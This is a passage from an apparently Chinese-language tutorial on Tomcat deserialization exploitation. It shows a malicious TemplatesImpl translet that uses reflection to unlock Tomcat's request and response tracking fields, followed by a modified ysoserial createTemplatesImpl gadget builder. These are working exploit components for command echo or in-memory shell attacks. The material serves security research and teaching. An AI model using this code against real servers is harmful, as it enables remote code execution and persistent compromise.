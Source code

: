 ```java
      Class c = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
      java.lang.reflect.Field f = c.getDeclaredField("WRAP_SAME_OBJECT");
      java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField("modifiers");
      modifiersField.setAccessible(true);
      modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
      f.setAccessible(true);
      if (!f.getBoolean(null)) {
        f.setBoolean(null, true);
      }

      //初始化 lastServicedRequest
      c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
      f = c.getDeclaredField("lastServicedRequest");
      modifiersField = f.getClass().getDeclaredField("modifiers");
      modifiersField.setAccessible(true);
      modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
      f.setAccessible(true);
      if (f.get(null) == null) {
        f.set(null, new ThreadLocal());
      }

      //初始化 lastServicedResponse
      f = c.getDeclaredField("lastServicedResponse");
      modifiersField = f.getClass().getDeclaredField("modifiers");
      modifiersField.setAccessible(true);
      modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
      f.setAccessible(true);
      if (f.get(null) == null) {
        f.set(null, new ThreadLocal());
      }
    } catch (Exception e) {
      e.printStackTrace();
    }
  }

  @Override
  public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

  }

  @Override
  public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
      throws TransletException {

  }
}
```

接着，我们改造一下ysoserial中的Gadgets.createTemplatesImpl方法


```java
public static Object createTemplatesImpl ( final String command) throws Exception {
    return createTemplatesImpl(command, null);
}

public static Object createTemplatesImpl ( final String command, final Class c ) throws Exception {
    if ( Boolean.parseBoolean(System.getProperty("properXalan", "false")) ) {
        return createTemplatesImpl(
            command, c,
            Class.forName("org.apache.xalan.xsltc.trax.TemplatesImpl"),
            Class.forName("org.apache.xalan.xsltc.runtime.AbstractTranslet"),
            Class.forName("org.apache.xalan.xsltc.trax.TransformerFactoryImpl"));
    }
```